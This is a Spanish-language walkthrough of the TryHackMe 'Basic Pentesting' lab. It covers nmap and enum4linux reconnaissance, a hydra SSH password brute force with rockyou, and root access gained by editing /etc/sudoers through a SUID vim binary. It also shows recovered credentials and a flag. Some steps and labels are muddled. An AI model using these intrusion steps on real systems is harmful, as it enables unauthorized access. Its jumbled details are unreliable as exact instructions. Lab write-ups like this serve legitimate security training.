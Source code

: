 # Basic Pentesting

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:15
IP: 10.10.132.218

# Reconocimiento (Recon)

Escaneo de Puertos

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

**Puertos Abiertos**:
**[Puertos ]**: 22,80,139,445,8009,8080

![image.png](<imagenes/image 6.png>)

- [ ]  **Nmap servicios**:

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>
```

![image.png](<imagenes/image 7.png>)

- [ ]  **Nmap webscan**

```bash
sudo nmap -p80 --script=http-enum 10.10.132.218 -oN webscan

```

Potentially interesting: /development/

- [ ]  **Enum4linux**:

```bash
emum4linux -a <IP>

```

User: **kay**
User: **jan**

# Análisis de Vulnerabilidades

**Vulnerabilidad Potencial**:

/developer/

![image.png](<imagenes/image 8.png>)

**Vulnerabilidad Potencial**:
Probamos con hydra a los usuarios kay y jan

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.132.218 ssh

```

![image.png](<imagenes/image 9.png>)

User: **jan**
Pass: **armando**

Conectamos por SSH

# Explotación (Exploit)

Ejecución del Exploit

- **Exploit Utilizado**:
    
    ```bash
    enum4linux -a IP
    ```
    

Resultados**:  Usuarios con los que probar fuerza bruta

# Escalada de Privilegios

- **Enumeración de Privilegios**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    

![image.png](<imagenes/image 10.png>)

- **Método de Escalada**: Editamos un fichero privilegiado con un binario SUID

```bash
    /usr/bin/vim.basic
    /usr/bin/vim.basic /etc/sudoers    
```

![image.png](<imagenes/image 11.png>)

```bash
sudo su
root
```

# Post-Explotación

Obtención de User.txt

- **Localización**: Obtenido con hydra
- Contenido :
    - User: jan
    - Pass: Armando

### 4.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    /home/kay/pass.bak
    ```
    

- **Contenido**:
    
    ```bash
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```
